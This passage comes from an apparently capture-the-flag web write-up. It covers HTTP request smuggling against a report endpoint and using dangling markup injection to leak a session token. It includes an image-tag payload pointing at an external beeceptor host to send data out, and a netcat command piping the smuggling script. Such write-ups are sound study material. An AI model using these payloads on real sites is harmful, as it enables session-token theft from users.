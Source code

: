 I ran the script locally by running `python3 hrs.py | nc localhost 80`. We can verify that a request to `do-report` was made by inspecting the docker container logs (or alternatively point the `url` parameter in the `POST /do-report` endpoint to a self-controlled domain and inspect the request made).

```bash
└─$ docker logs --follow distrib_app_1
[*] Visiting http://localhost:8000/token
[*] Done visiting http://localhost:8000/token
```

*Credits to [zeyu2001](https://www.zeyu2001.com/) for the solution writeup on [flagportal revenge](https://github.com/zeyu2001/My-CTF-Challenges/blob/main/SEETF-2022/web/flagportal-revenge/solve.md), which helped me understand the whole HRS much better! Do checkout his website and his other writeups too :)*

## Data Exfiltration via Dangling Markup Injection
Okay, we have found a way to externally trigger the `POST /do-report` endpoint, but how do we exfiltrate the `req.session.token` data? Remember earlier on when we noticed the use of `puppeteer` and the potential idea of an XSS? Let's look at that!

After some digging around, it seems like the `GET /token?token=<token>` endpoint has unsanitized reflected input when generating a token through `POST /token`.

Initially I tried injecting XSS payloads but all of which seemed to not execute, making me realise that an XSS was (probably) not possible.

I decided to analyse the `Content-Security-Policy` to understand further and voila, a realisation!

```javascript
app.use((req, res, next) => {
    res.setHeader(
        'Content-Security-Policy',
        "default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none'; frame-ancestors 'none'"
    )
    res.setHeader(
        'Cross-Origin-Opener-Policy',
        'same-origin'
    )
    next()
})
```

Hmmm, turns out the CSP does indeed allow the loading of external image sources. I started looking around for other forms of **non-xss** client based attacks and eventually I came across [Dangling Markup Injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup), which seemed rather promising.

I tried to generate a token with the `username` payload, using [beeceptor](https://beeceptor.com/) as a way to inspect my request. If the image does load a request would be triggered to my temporary `beeceptor` endpoint.

```html
"/><img src="https://test-dangling-markup.free.beeceptor.com?
```
